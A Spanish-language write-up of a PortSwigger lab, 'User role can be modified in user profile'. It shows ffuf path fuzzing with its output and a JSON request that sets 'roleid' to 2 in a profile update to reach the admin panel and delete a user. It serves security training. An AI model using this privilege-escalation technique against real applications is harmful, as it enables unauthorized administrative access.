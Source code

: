 ```yaml
---
title: "User role can be modified in user profile"
description: "Laboratorio de Portswigger sobre Access Control Vulnerabilities"
date: 2024-12-04 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Access Control Vulnerabilities
tags:
  - Access Control Vulnerabilities
  - User role can be modified in user profile
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` tiene un `panel de administración` en `/admin`. Solo es accesible para `usuarios autenticados` con un `roleid` de `2`. Para `resolver` el laboratorio, debemos `acceder` al `panel de administración` y `eliminar` al `usuario carlos`. Podemos `iniciar sesión` en tu nuestra cuenta con las siguientes credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Access-Control-Lab-4/image_1.png)

Pulsamos en `My account` y nos logueamos con las credenciales `wiener:peter`

![](/assets/img/Access-Control-Lab-4/image_2.png)

`Fuzzeamos` rutas y encontramos una llamada `/admin`

```
# ffuf -c -t 20 -w /usr/share/seclists/Discovery/Web-Content/common.txt -u https://0a0600100345e4df8263e5a700810033.web-security-academy.net/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://0a0600100345e4df8263e5a700810033.web-security-academy.net/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 20
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

ADMIN                   [Status: 401, Size: 2588, Words: 1053, Lines: 54, Duration: 63ms]
Admin                   [Status: 401, Size: 2588, Words: 1053, Lines: 54, Duration: 59ms]
Login                   [Status: 200, Size: 3051, Words: 1287, Lines: 63, Duration: 67ms]
admin                   [Status: 401, Size: 2588, Words: 1053, Lines: 54, Duration: 61ms]
analytics               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 55ms]
favicon.ico             [Status: 200, Size: 15406, Words: 11, Lines: 1, Duration: 56ms]
filter                  [Status: 200, Size: 10778, Words: 5080, Lines: 199, Duration: 63ms]
login                   [Status: 200, Size: 3051, Words: 1287, Lines: 63, Duration: 61ms]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 60ms]
my-account              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 59ms]
```

Si accedemos a `/admin` nos `muestra` este `mensaje`

![](/assets/img/Access-Control-Lab-4/image_3.png)

En la parte de `My account` vemos que podemos `actualizar` nuestro `email`

![](/assets/img/Access-Control-Lab-4/image_4.png)

Si `interceptamos` la `petición` mediante `Burpsuite` vemos esto

![](/assets/img/Access-Control-Lab-4/image_5.png)

Si `enviamos` la `petición`, esta es la `repuesta` que `recibimos`

![](/assets/img/Access-Control-Lab-4/image_6.png)

Podemos `enviar` este `payload` en el cual cambiamos nuestro `roleid` a `2` con el fin de `escalar privilegios`

```
{
	"email":"wiener@normal-user.net",
	"roleid": 2
}
```

Una vez `ascendido` nuestro `privilegio` ya podemos `acceder` a `/admin`, `borrar` al usuario `carlos` y `ascender` nuestro `privilegio`

![](/assets/img/Access-Control-Lab-4/image_7.png)
